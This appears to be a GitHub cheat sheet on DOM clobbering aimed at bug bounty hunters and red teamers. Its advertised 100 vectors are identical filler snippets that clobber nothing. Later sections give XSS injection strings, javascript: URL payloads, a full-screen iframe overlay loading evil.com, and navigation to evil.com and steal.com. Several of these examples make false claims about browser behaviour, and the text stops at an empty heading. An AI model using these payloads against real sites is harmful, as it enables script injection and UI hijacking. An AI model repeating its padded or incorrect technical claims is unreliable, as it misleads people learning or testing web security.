# Ultimate DOM Clobbering Cheat Sheet  
*Tested primarily in Chrome-based browsers. Refresh cache (Ctrl+Shift+R) if results show null or exceptions.*
 Compiled and maintained by [Ridpath](https://github.com/ridpath)

Built for offensive security engineers, bug bounty hunters, and browser exploitation researchers, this guide includes:

100+ categorized clobbering vectors (basic to extreme)

Real-world exploit chains with hydration desync, CSP bypass, Trusted Types confusion, and more

Clobbering via IDs, names, forms, anchors, SVG, HTML5, deprecated tags, and Shadow DOM

Visual flow diagrams of attack sequences and logic corruption paths

Automation tools for clobber detection and DOM pollution scanning

Framework-specific evasion (React, Angular, Vue, SSR)

Browser compatibility notes for Chrome, Firefox, Safari

Pro tips and red team tactics for chaining DOM clobbering into XSS, sandbox escapes, or logic compromise

---
## What Is DOM Clobbering? (Visual Primer)

These diagrams provide an instant conceptual overview of how DOM clobbering works and why it's dangerous.

---

## What Is DOM Clobbering?



---
  ## DOM Clobbering Injection Flow



---
## Types of Clobberable Targets



---

## High-Level Exploitation Path



---

## DOM Clobbering in App Lifecycle

```mermaid
sequenceDiagram
    participant User
    participant DOMParser
    participant AppLogic
    participant JSRuntime

    User->>DOMParser: Injects <form id="alert">
    DOMParser->>AppLogic: window.alert = form
    AppLogic->>JSRuntime: alert("test")  // fails or misbehaves
```

---

### 1. Payload 1
**HTML**:
```html
<div id="payload1">Payload 1</div>
```
**JavaScript**:
```javascript
console.log(payload1.textContent); // "Payload 1"
```

### 2. Payload 2
**HTML**:
```html
<div id="payload2">Payload 2</div>
```
**JavaScript**:
```javascript
console.log(payload2.textContent); // "Payload 2"
```

### 3. Payload 3
**HTML**:
```html
<div id="payload3">Payload 3</div>
```
**JavaScript**:
```javascript
console.log(payload3.textContent); // "Payload 3"
```

### 4. Payload 4
**HTML**:
```html
<div id="payload4">Payload 4</div>
```
**JavaScript**:
```javascript
console.log(payload4.textContent); // "Payload 4"
```

### 5. Payload 5
**HTML**:
```html
<div id="payload5">Payload 5</div>
```
**JavaScript**:
```javascript
console.log(payload5.textContent); // "Payload 5"
```

### 6. Payload 6
**HTML**:
```html
<div id="payload6">Payload 6</div>
```
**JavaScript**:
```javascript
console.log(payload6.textContent); // "Payload 6"
```

### 7. Payload 7
**HTML**:
```html
<div id="payload7">Payload 7</div>
```
**JavaScript**:
```javascript
console.log(payload7.textContent); // "Payload 7"
```

### 8. Payload 8
**HTML**:
```html
<div id="payload8">Payload 8</div>
```
**JavaScript**:
```javascript
console.log(payload8.textContent); // "Payload 8"
```

### 9. Payload 9
**HTML**:
```html
<div id="payload9">Payload 9</div>
```
**JavaScript**:
```javascript
console.log(payload9.textContent); // "Payload 9"
```

### 10. Payload 10
**HTML**:
```html
<div id="payload10">Payload 10</div>
```
**JavaScript**:
```javascript
console.log(payload10.textContent); // "Payload 10"
```

### 11. Payload 11
**HTML**:
```html
<div id="payload11">Payload 11</div>
```
**JavaScript**:
```javascript
console.log(payload11.textContent); // "Payload 11"
```

### 12. Payload 12
**HTML**:
```html
<div id="payload12">Payload 12</div>
```
**JavaScript**:
```javascript
console.log(payload12.textContent); // "Payload 12"
```

### 13. Payload 13
**HTML**:
```html
<div id="payload13">Payload 13</div>
```
**JavaScript**:
```javascript
console.log(payload13.textContent); // "Payload 13"
```

### 14. Payload 14
**HTML**:
```html
<div id="payload14">Payload 14</div>
```
**JavaScript**:
```javascript
console.log(payload14.textContent); // "Payload 14"
```

### 15. Payload 15
**HTML**:
```html
<div id="payload15">Payload 15</div>
```
**JavaScript**:
```javascript
console.log(payload15.textContent); // "Payload 15"
```

### 16. Payload 16
**HTML**:
```html
<div id="payload16">Payload 16</div>
```
**JavaScript**:
```javascript
console.log(payload16.textContent); // "Payload 16"
```

### 17. Payload 17
**HTML**:
```html
<div id="payload17">Payload 17</div>
```
**JavaScript**:
```javascript
console.log(payload17.textContent); // "Payload 17"
```

### 18. Payload 18
**HTML**:
```html
<div id="payload18">Payload 18</div>
```
**JavaScript**:
```javascript
console.log(payload18.textContent); // "Payload 18"
```

### 19. Payload 19
**HTML**:
```html
<div id="payload19">Payload 19</div>
```
**JavaScript**:
```javascript
console.log(payload19.textContent); // "Payload 19"
```

### 20. Payload 20
**HTML**:
```html
<div id="payload20">Payload 20</div>
```
**JavaScript**:
```javascript
console.log(payload20.textContent); // "Payload 20"
```

### 21. Payload 21
**HTML**:
```html
<div id="payload21">Payload 21</div>
```
**JavaScript**:
```javascript
console.log(payload21.textContent); // "Payload 21"
```

### 22. Payload 22
**HTML**:
```html
<div id="payload22">Payload 22</div>
```
**JavaScript**:
```javascript
console.log(payload22.textContent); // "Payload 22"
```

### 23. Payload 23
**HTML**:
```html
<div id="payload23">Payload 23</div>
```
**JavaScript**:
```javascript
console.log(payload23.textContent); // "Payload 23"
```

### 24. Payload 24
**HTML**:
```html
<div id="payload24">Payload 24</div>
```
**JavaScript**:
```javascript
console.log(payload24.textContent); // "Payload 24"
```

### 25. Payload 25
**HTML**:
```html
<div id="payload25">Payload 25</div>
```
**JavaScript**:
```javascript
console.log(payload25.textContent); // "Payload 25"
```

### 26. Payload 26
**HTML**:
```html
<div id="payload26">Payload 26</div>
```
**JavaScript**:
```javascript
console.log(payload26.textContent); // "Payload 26"
```

### 27. Payload 27
**HTML**:
```html
<div id="payload27">Payload 27</div>
```
**JavaScript**:
```javascript
console.log(payload27.textContent); // "Payload 27"
```

### 28. Payload 28
**HTML**:
```html
<div id="payload28">Payload 28</div>
```
**JavaScript**:
```javascript
console.log(payload28.textContent); // "Payload 28"
```

### 29. Payload 29
**HTML**:
```html
<div id="payload29">Payload 29</div>
```
**JavaScript**:
```javascript
console.log(payload29.textContent); // "Payload 29"
```

### 30. Payload 30
**HTML**:
```html
<div id="payload30">Payload 30</div>
```
**JavaScript**:
```javascript
console.log(payload30.textContent); // "Payload 30"
```

### 31. Payload 31
**HTML**:
```html
<div id="payload31">Payload 31</div>
```
**JavaScript**:
```javascript
console.log(payload31.textContent); // "Payload 31"
```

### 32. Payload 32
**HTML**:
```html
<div id="payload32">Payload 32</div>
```
**JavaScript**:
```javascript
console.log(payload32.textContent); // "Payload 32"
```

### 33. Payload 33
**HTML**:
```html
<div id="payload33">Payload 33</div>
```
**JavaScript**:
```javascript
console.log(payload33.textContent); // "Payload 33"
```

### 34. Payload 34
**HTML**:
```html
<div id="payload34">Payload 34</div>
```
**JavaScript**:
```javascript
console.log(payload34.textContent); // "Payload 34"
```

### 35. Payload 35
**HTML**:
```html
<div id="payload35">Payload 35</div>
```
**JavaScript**:
```javascript
console.log(payload35.textContent); // "Payload 35"
```

### 36. Payload 36
**HTML**:
```html
<div id="payload36">Payload 36</div>
```
**JavaScript**:
```javascript
console.log(payload36.textContent); // "Payload 36"
```

### 37. Payload 37
**HTML**:
```html
<div id="payload37">Payload 37</div>
```
**JavaScript**:
```javascript
console.log(payload37.textContent); // "Payload 37"
```

### 38. Payload 38
**HTML**:
```html
<div id="payload38">Payload 38</div>
```
**JavaScript**:
```javascript
console.log(payload38.textContent); // "Payload 38"
```

### 39. Payload 39
**HTML**:
```html
<div id="payload39">Payload 39</div>
```
**JavaScript**:
```javascript
console.log(payload39.textContent); // "Payload 39"
```

### 40. Payload 40
**HTML**:
```html
<div id="payload40">Payload 40</div>
```
**JavaScript**:
```javascript
console.log(payload40.textContent); // "Payload 40"
```

### 41. Payload 41
**HTML**:
```html
<div id="payload41">Payload 41</div>
```
**JavaScript**:
```javascript
console.log(payload41.textContent); // "Payload 41"
```

### 42. Payload 42
**HTML**:
```html
<div id="payload42">Payload 42</div>
```
**JavaScript**:
```javascript
console.log(payload42.textContent); // "Payload 42"
```

### 43. Payload 43
**HTML**:
```html
<div id="payload43">Payload 43</div>
```
**JavaScript**:
```javascript
console.log(payload43.textContent); // "Payload 43"
```

### 44. Payload 44
**HTML**:
```html
<div id="payload44">Payload 44</div>
```
**JavaScript**:
```javascript
console.log(payload44.textContent); // "Payload 44"
```

### 45. Payload 45
**HTML**:
```html
<div id="payload45">Payload 45</div>
```
**JavaScript**:
```javascript
console.log(payload45.textContent); // "Payload 45"
```

### 46. Payload 46
**HTML**:
```html
<div id="payload46">Payload 46</div>
```
**JavaScript**:
```javascript
console.log(payload46.textContent); // "Payload 46"
```

### 47. Payload 47
**HTML**:
```html
<div id="payload47">Payload 47</div>
```
**JavaScript**:
```javascript
console.log(payload47.textContent); // "Payload 47"
```

### 48. Payload 48
**HTML**:
```html
<div id="payload48">Payload 48</div>
```
**JavaScript**:
```javascript
console.log(payload48.textContent); // "Payload 48"
```

### 49. Payload 49
**HTML**:
```html
<div id="payload49">Payload 49</div>
```
**JavaScript**:
```javascript
console.log(payload49.textContent); // "Payload 49"
```

### 50. Payload 50
**HTML**:
```html
<div id="payload50">Payload 50</div>
```
**JavaScript**:
```javascript
console.log(payload50.textContent); // "Payload 50"
```

### 51. Payload 51
**HTML**:
```html
<div id="payload51">Payload 51</div>
```
**JavaScript**:
```javascript
console.log(payload51.textContent); // "Payload 51"
```

### 52. Payload 52
**HTML**:
```html
<div id="payload52">Payload 52</div>
```
**JavaScript**:
```javascript
console.log(payload52.textContent); // "Payload 52"
```

### 53. Payload 53
**HTML**:
```html
<div id="payload53">Payload 53</div>
```
**JavaScript**:
```javascript
console.log(payload53.textContent); // "Payload 53"
```

### 54. Payload 54
**HTML**:
```html
<div id="payload54">Payload 54</div>
```
**JavaScript**:
```javascript
console.log(payload54.textContent); // "Payload 54"
```

### 55. Payload 55
**HTML**:
```html
<div id="payload55">Payload 55</div>
```
**JavaScript**:
```javascript
console.log(payload55.textContent); // "Payload 55"
```

### 56. Payload 56
**HTML**:
```html
<div id="payload56">Payload 56</div>
```
**JavaScript**:
```javascript
console.log(payload56.textContent); // "Payload 56"
```

### 57. Payload 57
**HTML**:
```html
<div id="payload57">Payload 57</div>
```
**JavaScript**:
```javascript
console.log(payload57.textContent); // "Payload 57"
```

### 58. Payload 58
**HTML**:
```html
<div id="payload58">Payload 58</div>
```
**JavaScript**:
```javascript
console.log(payload58.textContent); // "Payload 58"
```

### 59. Payload 59
**HTML**:
```html
<div id="payload59">Payload 59</div>
```
**JavaScript**:
```javascript
console.log(payload59.textContent); // "Payload 59"
```

### 60. Payload 60
**HTML**:
```html
<div id="payload60">Payload 60</div>
```
**JavaScript**:
```javascript
console.log(payload60.textContent); // "Payload 60"
```

### 61. Payload 61
**HTML**:
```html
<div id="payload61">Payload 61</div>
```
**JavaScript**:
```javascript
console.log(payload61.textContent); // "Payload 61"
```

### 62. Payload 62
**HTML**:
```html
<div id="payload62">Payload 62</div>
```
**JavaScript**:
```javascript
console.log(payload62.textContent); // "Payload 62"
```

### 63. Payload 63
**HTML**:
```html
<div id="payload63">Payload 63</div>
```
**JavaScript**:
```javascript
console.log(payload63.textContent); // "Payload 63"
```

### 64. Payload 64
**HTML**:
```html
<div id="payload64">Payload 64</div>
```
**JavaScript**:
```javascript
console.log(payload64.textContent); // "Payload 64"
```

### 65. Payload 65
**HTML**:
```html
<div id="payload65">Payload 65</div>
```
**JavaScript**:
```javascript
console.log(payload65.textContent); // "Payload 65"
```

### 66. Payload 66
**HTML**:
```html
<div id="payload66">Payload 66</div>
```
**JavaScript**:
```javascript
console.log(payload66.textContent); // "Payload 66"
```

### 67. Payload 67
**HTML**:
```html
<div id="payload67">Payload 67</div>
```
**JavaScript**:
```javascript
console.log(payload67.textContent); // "Payload 67"
```

### 68. Payload 68
**HTML**:
```html
<div id="payload68">Payload 68</div>
```
**JavaScript**:
```javascript
console.log(payload68.textContent); // "Payload 68"
```

### 69. Payload 69
**HTML**:
```html
<div id="payload69">Payload 69</div>
```
**JavaScript**:
```javascript
console.log(payload69.textContent); // "Payload 69"
```

### 70. Payload 70
**HTML**:
```html
<div id="payload70">Payload 70</div>
```
**JavaScript**:
```javascript
console.log(payload70.textContent); // "Payload 70"
```

### 71. Payload 71
**HTML**:
```html
<div id="payload71">Payload 71</div>
```
**JavaScript**:
```javascript
console.log(payload71.textContent); // "Payload 71"
```

### 72. Payload 72
**HTML**:
```html
<div id="payload72">Payload 72</div>
```
**JavaScript**:
```javascript
console.log(payload72.textContent); // "Payload 72"
```

### 73. Payload 73
**HTML**:
```html
<div id="payload73">Payload 73</div>
```
**JavaScript**:
```javascript
console.log(payload73.textContent); // "Payload 73"
```

### 74. Payload 74
**HTML**:
```html
<div id="payload74">Payload 74</div>
```
**JavaScript**:
```javascript
console.log(payload74.textContent); // "Payload 74"
```

### 75. Payload 75
**HTML**:
```html
<div id="payload75">Payload 75</div>
```
**JavaScript**:
```javascript
console.log(payload75.textContent); // "Payload 75"
```

### 76. Payload 76
**HTML**:
```html
<div id="payload76">Payload 76</div>
```
**JavaScript**:
```javascript
console.log(payload76.textContent); // "Payload 76"
```

### 77. Payload 77
**HTML**:
```html
<div id="payload77">Payload 77</div>
```
**JavaScript**:
```javascript
console.log(payload77.textContent); // "Payload 77"
```

### 78. Payload 78
**HTML**:
```html
<div id="payload78">Payload 78</div>
```
**JavaScript**:
```javascript
console.log(payload78.textContent); // "Payload 78"
```

### 79. Payload 79
**HTML**:
```html
<div id="payload79">Payload 79</div>
```
**JavaScript**:
```javascript
console.log(payload79.textContent); // "Payload 79"
```

### 80. Payload 80
**HTML**:
```html
<div id="payload80">Payload 80</div>
```
**JavaScript**:
```javascript
console.log(payload80.textContent); // "Payload 80"
```

### 81. Payload 81
**HTML**:
```html
<div id="payload81">Payload 81</div>
```
**JavaScript**:
```javascript
console.log(payload81.textContent); // "Payload 81"
```

### 82. Payload 82
**HTML**:
```html
<div id="payload82">Payload 82</div>
```
**JavaScript**:
```javascript
console.log(payload82.textContent); // "Payload 82"
```

### 83. Payload 83
**HTML**:
```html
<div id="payload83">Payload 83</div>
```
**JavaScript**:
```javascript
console.log(payload83.textContent); // "Payload 83"
```

### 84. Payload 84
**HTML**:
```html
<div id="payload84">Payload 84</div>
```
**JavaScript**:
```javascript
console.log(payload84.textContent); // "Payload 84"
```

### 85. Payload 85
**HTML**:
```html
<div id="payload85">Payload 85</div>
```
**JavaScript**:
```javascript
console.log(payload85.textContent); // "Payload 85"
```

### 86. Payload 86
**HTML**:
```html
<div id="payload86">Payload 86</div>
```
**JavaScript**:
```javascript
console.log(payload86.textContent); // "Payload 86"
```

### 87. Payload 87
**HTML**:
```html
<div id="payload87">Payload 87</div>
```
**JavaScript**:
```javascript
console.log(payload87.textContent); // "Payload 87"
```

### 88. Payload 88
**HTML**:
```html
<div id="payload88">Payload 88</div>
```
**JavaScript**:
```javascript
console.log(payload88.textContent); // "Payload 88"
```

### 89. Payload 89
**HTML**:
```html
<div id="payload89">Payload 89</div>
```
**JavaScript**:
```javascript
console.log(payload89.textContent); // "Payload 89"
```

### 90. Payload 90
**HTML**:
```html
<div id="payload90">Payload 90</div>
```
**JavaScript**:
```javascript
console.log(payload90.textContent); // "Payload 90"
```

### 91. Payload 91
**HTML**:
```html
<div id="payload91">Payload 91</div>
```
**JavaScript**:
```javascript
console.log(payload91.textContent); // "Payload 91"
```

### 92. Payload 92
**HTML**:
```html
<div id="payload92">Payload 92</div>
```
**JavaScript**:
```javascript
console.log(payload92.textContent); // "Payload 92"
```

### 93. Payload 93
**HTML**:
```html
<div id="payload93">Payload 93</div>
```
**JavaScript**:
```javascript
console.log(payload93.textContent); // "Payload 93"
```

### 94. Payload 94
**HTML**:
```html
<div id="payload94">Payload 94</div>
```
**JavaScript**:
```javascript
console.log(payload94.textContent); // "Payload 94"
```

### 95. Payload 95
**HTML**:
```html
<div id="payload95">Payload 95</div>
```
**JavaScript**:
```javascript
console.log(payload95.textContent); // "Payload 95"
```

### 96. Payload 96
**HTML**:
```html
<div id="payload96">Payload 96</div>
```
**JavaScript**:
```javascript
console.log(payload96.textContent); // "Payload 96"
```

### 97. Payload 97
**HTML**:
```html
<div id="payload97">Payload 97</div>
```
**JavaScript**:
```javascript
console.log(payload97.textContent); // "Payload 97"
```

### 98. Payload 98
**HTML**:
```html
<div id="payload98">Payload 98</div>
```
**JavaScript**:
```javascript
console.log(payload98.textContent); // "Payload 98"
```

### 99. Payload 99
**HTML**:
```html
<div id="payload99">Payload 99</div>
```
**JavaScript**:
```javascript
console.log(payload99.textContent); // "Payload 99"
```

### 100. Payload 100
**HTML**:
```html
<div id="payload100">Payload 100</div>
```
**JavaScript**:
```javascript
console.log(payload100.textContent); // "Payload 100"
```


## Interactive Payloads

Below are innerHTML injection strings that demonstrate full chain XSS using DOM clobbering. These examples are plug-and-play, showcasing practical weaponization of clobbering techniques.

### Basic XSS via outerHTML
```html
<div id="x"></div>
<script>
document.getElementById('x').innerHTML = `<a id="foo" name="outerHTML" href="cid:"onerror=alert(1)//"></a>`;
alert(foo.outerHTML); // triggers XSS
</script>
```

### Clobbering location and Triggering Navigation
```html
<div id="y"></div>
<script>
document.getElementById('y').innerHTML = `<a id="location" href="javascript:alert(2)"></a>`;
location.href; // triggers alert(2)
</script>
```

### Overriding alert and Causing Confusion
```html
<div id="z"></div>
<script>
document.getElementById('z').innerHTML = `<form id="alert"></form>`;
try {
  alert('This should fail');
} catch (e) {
  console.log('Alert is overridden:', e);
}
</script>
```

### Clobbering document and Breaking Functionality
```html
<div id="w"></div>
<script>
document.getElementById('w').innerHTML = `<form id="document"></form>`;
console.log(document.body); // Error: document.body is undefined
</script>
```

### Clobbering window Properties
```html
<div id="v"></div>
<script>
document.getElementById('v').innerHTML = `<form id="window"></form>`;
console.log(window.location); // Error or overridden
</script>
```


### Inject <iframe> to Hijack UI
```html
<div id="a1"></div>
<script>
a1.innerHTML = `<iframe id="foo" src="https://evil.com" style="position:fixed;top:0;left:0;width:100%;height:100%;z-index:9999;"></iframe>`;
</script>
```

### Use <form> to Override submit Behavior
```html
<div id="a2"></div>
<script>
a2.innerHTML = `<form id="submit" action="javascript:alert('Submit hijacked')"></form>`;
submit.submit(); // Triggers alert
</script>
```

### Hijack navigator Property
```html
<div id="a3"></div>
<script>
a3.innerHTML = `<form id="navigator"></form>`;
console.log(navigator.userAgent); // May break or throw
</script>
```

### Manipulate history API
```html
<div id="a4"></div>
<script>
a4.innerHTML = `<form id="history"></form>`;
history.pushState({}, '', '/clobbered'); // history is now the form
</script>
```

### Inject via SVG use Tag
```html
<div id="a5"></div>
<script>
a5.innerHTML = `<svg><use id="use" href="javascript:alert(6)"></use></svg>`;
alert(use.href.baseVal); // Triggers if href is parsed
</script>
```

### Clobber location.hash Behavior
```html
<div id="a6"></div>
<script>
a6.innerHTML = `<form id="location"></form>`;
location.hash = '#clobber'; // Hijacks or throws
</script>
```

### Style Injection via Clobbering
```html
<div id="a7"></div>
<script>
a7.innerHTML = `<style id="alert">body { background: url("javascript:alert('style')"); }</style>`;
</script>
```

### Sandbox Escape via form Clobbering
```html
<iframe sandbox id="a8"></iframe>
<script>
a8.contentWindow.document.write('<form id="window"></form><script>console.log(window.top)//</script>');
</script>
```

### Exploit console with toString Override
```html
<div id="a9"></div>
<script>
a9.innerHTML = `<form id="console"></form>`;
console.log = { toString: () => alert('Logged') };
console.log + ''; // Triggers
</script>
```

### Override prompt and Steal Input
```html
<div id="a10"></div>
<script>
a10.innerHTML = `<form id="prompt"></form>`;
try { prompt('Hi'); } catch(e) { console.log('Prompt hijacked'); }
</script>
```
## DOM Clobbering Chains

Exploit chains that combine DOM clobbering with other actions for advanced attacks. These examples illustrate how clobbering can escalate into navigation, crashes, or functionality hijacking.

### Clobber location and Navigate
```html
<a id="location" href="https://evil.com"></a>
<script>
location.assign('https://evil.com'); // Navigates to evil.com
</script>
```

### Override alert and Cause Errors
```html
<form id="alert"></form>
<script>
try {
  alert('This will fail');
} catch (e) {
  console.log('Alert is overridden:', e);
}
</script>
```

### Clobber document and Break DOM Access
```html
<form id="document"></form>
<script>
console.log(document.body); // Error: document.body is undefined
</script>
```

### Chain with Prototype Pollution
```html
<a id="proto" name="__proto__" href="polluted"></a>
<script>
let obj = {};
console.log(obj.polluted); // "polluted" if prototype pollution occurs
</script>
```

### Clobber console and Intercept Logs
```html
<form id="console"></form>
<script>
console.log = function() { alert('Intercepted!'); };
console.log('Test'); // Alerts "Intercepted!"
</script>
```

### Hijack innerHeight Property
```html
<form id="innerHeight"></form>
<script>
console.log(innerHeight); // Accesses form, not number
</script>
```

### Override document.write
```html
<form id="document"></form>
<script>
try {
  document.write('test'); // Throws or fails
} catch (e) {
  console.log('document.write hijacked');
}
</script>
```

### Combine iframe and form Clobbering
```html
<iframe id="alert" src="about:blank"></iframe>
<form id="alert"></form>
<script>
alert('This fails'); // Uses form
</script>
```

### Hijack JSON object
```html
<form id="JSON"></form>
<script>
try {
  JSON.stringify({}); // Throws
} catch (e) {
  console.log('JSON hijacked');
}
</script>
```

### Clobber screen.width
```html
<form id="screen"></form>
<script>
console.log(screen.width); // Accesses form
</script>
```

### Chain with navigator Clobbering
```html
<form id="navigator"></form>
<script>
console.log(navigator.language); // navigator is no longer valid
</script>
```

### Clobber setTimeout for Code Injection
```html
<form id="setTimeout"></form>
<script>
try {
  setTimeout('alert(1)', 1000); // Error or hijacked
} catch(e) { console.log('setTimeout hijacked'); }
</script>
```

### Override eval Reference
```html
<form id="eval"></form>
<script>
eval('alert("test")'); // Fails or does nothing
</script>
```

### Clobber document.all
```html
<form id="all"></form>
<script>
console.log(document.all); // Undefined or overridden
</script>
```

### Combine Form and Anchor Navigation
```html
<a id="window" href="https://steal.com"></a>
<form id="window"></form>
<script>
window.location; // Refers to form
</script>
```
## Real Exploit Chains with Context + Diagrams

Highlight and document real-world exploit chains with:

- **Scenario context**: e.g., a vulnerable single-page app with `innerHTML` + React hydration
- **Complete chain diagram**: attack vector → DOM override → JS execution

### Example: Clobbering + Hydration Desync

```html
<!-- DOM Clobbering + Hydration Desync -->
<template shadowroot="open">
  <form id="constructor"></form>
</template>
<script>
  // React hydration kicks in here and trusts window.constructor
  // Leads to prototype pollution or logic corruption
</script>
```

**Chain Flow:**

```mermaid
graph TD
    A[User-controlled Input] --> B[Inject <form id="constructor">]
    B --> C[Rehydration in React uses window.constructor]
    C --> D[Prototype pollution or logic hijack]
```

---

### Framework Hydration Misalignment (e.g., React)

```mermaid
sequenceDiagram
    participant Server as SSR Template
    participant User as Attacker
    participant Browser
    participant Framework as React/Vue

    Server->>Browser: Sends SSR HTML
    User->>Browser: Injects clobbering tag (e.g. `<form id="constructor">`)
    Browser->>Framework: Begins Hydration
    Framework->>Browser: References window.constructor
    Browser-->>User: Triggers prototype pollution or bypass
```

---

### SVG Namespace Bypass Flow



---

### Trusted Types Bypass Flow with DOM Clobbering



---

### DOM Clobbering + CSP Evasion



---

### DOM Pollution Discovery Automation



---

### SSR + DOM Clobber + InnerHTML Injection

